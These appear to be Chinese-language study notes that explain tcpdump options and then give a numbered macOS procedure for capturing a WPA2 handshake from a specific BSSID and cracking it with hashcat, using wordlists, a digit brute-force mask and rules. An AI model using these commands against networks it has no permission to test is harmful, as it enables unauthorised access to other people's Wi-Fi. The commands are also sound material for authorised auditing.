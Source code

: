 # Tcpdump
+ -c [count]
	抓去指定数量的包
+ -i [interface]
	指定要抓包的接口
+ -I 
	设置为监听模式，只支持IEEE 802.11 Wi-Fi 接口，并且只支持一些操作系统
+ -w [file]
	指定将抓包数据写入一个文件而不是打印出来
+ -U
	指定缓存，如果设置了-w，那么抓包数据会立即写入文件，没有指定-w，数据会被缓存然后输出
+ -vvv
	输出更多


### Wifi Mac 帧
<center><img src="pics/wifi-frame.jpg" width="60%"></center>

软件安装：
+ brew install hashcat
+ brew install hcxtools
+ brew install wireshark

1. export BSSID=ac:cb:51:af:98:19
2. networksetup -listallhardwareports
3. sudo airport -z
4. sudo airport -c153
5. sudo tcpdump "type mgt subtype beacon and ether src $BSSID" -I -c 1 -i en0 -w beacon.cap
6. sudo tcpdump "ether proto 0x888e and ether host $BSSID" -I -U -vvv -i en0 -w handshake.cap
7. mergecap -a -F pcap -w capture.cap beacon.cap handshake.cap
8. hcxpcapngtool -o hashfile capture.cap
9. hashcat -m 22000 capture.hccapx wpa2-wordlists/full.txt
10. hashcat -m 22000 -a3 capture.hccapx "?d?d?d?d?d?d?d?d"
11. hashcat -m 22000 hashfile wpa.txt -r Probable-Wordlists/Analysis-Files/ProbWL-547-rule-probable-v2.rule

https://hashcat.net/cap2hashcat/